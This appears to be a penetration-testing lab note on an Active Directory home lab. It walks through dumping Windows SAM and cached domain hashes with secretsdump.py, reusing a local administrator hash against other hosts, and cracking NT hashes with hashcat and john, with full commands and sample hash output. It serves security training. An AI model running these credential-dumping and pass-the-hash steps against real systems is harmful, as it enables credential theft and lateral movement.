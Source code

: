 ## **Dumping Hashes with Secretsdump.py**


## **Usage**


```powershell
# Dumping SAM hashes
# secretsdump.py domain.tld/user:password@target_IP

$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```


**_Dumped Hashes :_**


```shell
--SNIP--

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa9b4a5489c5689b25cb65a48804aa1cc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:938bb6f7cdaf9b1856e880fd28de914b:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
MARVEL.local/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f


--SNIP--
```


**Note :** You should always focus on the hashes of  `administrator` and other users like `frankcastle` in our place, usually Guest, DefaultAccount and WDAGUtilityAccount are more of defaults account so there is no much to worry about.

Also watch out for **Wdigest** password cos' it is an old protocol on Windows 7, Windows 8 , 2008 R2 servers, This is used to store passwords in clear text 



### **Dumping Individual hashes with local admin hash**

sometimes we might not be able to dump hashes by just specifying the user like we did in the first step, we where able to dump `MARVEL.local/fcastle` hash but we where not able to dump `MARVEL.local/pparkers` hash, If we can dump a user hash, we can copy the local admin hash and try it out with other users to see if they share the same admin hash, then we can get a user hash from there

```powershell
# Dumping peterparker hash with local admin hash
$ secretsdump.py administrator:@192.168.0.132 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/4nSVJeN.jpg)


```powershell
# dumping peterparker hash with the local admin hash we got from fcastle
$ secretsdump.py administrator:@192.168.0.183 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/MKOGwFO.jpg)


**Note :** The only thing that changes here is the IP address of each user, every command option stays the same




## **Cracking Hashes**


We can take the `NT` potion (second potion) of each user hash we want to crack and then crack it.

```powershell
# paste hash into a txt file
$ echo "7facdc498ed1680c4fd1448319a8c04f" > hash.txt

# cracking hash with hashcat
$ hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt

# cracking hash with john
$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --fork=4
```